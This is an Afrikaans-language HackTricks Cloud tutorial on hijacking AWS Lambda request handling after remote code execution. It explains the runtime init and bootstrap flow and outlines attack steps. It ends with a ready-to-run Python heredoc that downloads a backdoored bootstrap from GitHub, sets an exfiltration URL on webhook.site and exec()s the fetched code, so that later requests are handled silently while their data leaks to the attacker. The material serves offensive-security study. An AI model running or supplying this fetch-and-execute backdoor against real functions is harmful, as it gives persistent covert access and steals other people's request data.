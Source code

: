 # AWS - Steel Lambda Versoeke

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekenplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Vloei

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** is 'n proses buite die houer wat **versoeke** na die **init** proses **stuur**.
2. Die init proses luister op poort **9001** en stel 'n paar interessante eindpunte bloot:
* **`/2018-06-01/runtime/invocation/next`** – kry die volgende versoek gebeurtenis
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – gee die handler reaksie vir die versoek
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – gee 'n uitvoeringsfout
3. **bootstrap.py** het 'n lus wat versoeke van die init proses kry en roep die gebruikerskode aan om dit te hanteer (**`/next`**).
4. Uiteindelik stuur **bootstrap.py** die **reaksie** na init

Let daarop dat bootstrap die gebruikerskode as 'n module laai, so enige kode-uitvoering wat deur die gebruikerskode uitgevoer word, gebeur eintlik in hierdie proses.

## Steel Lambda Versoeke

Die doel van hierdie aanval is om die gebruikerskode 'n kwaadwillige **`bootstrap.py`** proses binne die **`bootstrap.py`** proses wat die kwesbare versoek hanteer, te laat uitvoer. Op hierdie manier sal die **kwaadwillige bootstrap** proses begin **praat met die init proses** om die versoeke te hanteer terwyl die **regte** bootstrap **vasgevang** is om die kwaadwillige een te laat loop, sodat dit nie versoeke aan die init proses sal vra nie.&#x20;

Dit is 'n eenvoudige taak om te bereik aangesien die kode van die gebruiker deur die regte **`bootstrap.py`** proses uitgevoer word. So die aanvaller kan:

* **Stuur 'n vals resultaat van die huidige versoek na die init proses**, sodat init dink die bootstrap proses wag vir meer versoeke.
* 'n Versoek moet gestuur word na **`/${invoke-id}/response`**&#x20;
* Die invoke-id kan verkry word uit die stapel van die regte **`bootstrap.py`** proses deur die [**inspect**](https://docs.python.org/3/library/inspect.html) python module te gebruik (soos [hier voorgestel](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) of net weer aan te vra by **`/2018-06-01/runtime/invocation/next`** (soos [hier voorgestel](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Voer 'n kwaadwillige **`boostrap.py`** uit wat die volgende versoeke sal hanteer
* Vir stealthiness doeleindes is dit moontlik om die lambda versoek parameters na 'n aanvaller-beheerde C2 te stuur en dan die versoeke soos gewoonlik te hanteer.
* Vir hierdie aanval is dit genoeg om die oorspronklike kode van **`bootstrap.py`** van die stelsel of [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) te kry, die kwaadwillige kode by te voeg en dit van die huidige lambda versoek af te laat loop.

### Aanval Stappe

1. Vind 'n **RCE** kwesbaarheid.
2. Genereer 'n **kwaadwillige** **bootstrap** (bv. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Voer** die kwaadwillige bootstrap uit.

Jy kan hierdie aksies maklik uitvoer deur:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Vir meer inligting, kyk [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Verwysings

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekenplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
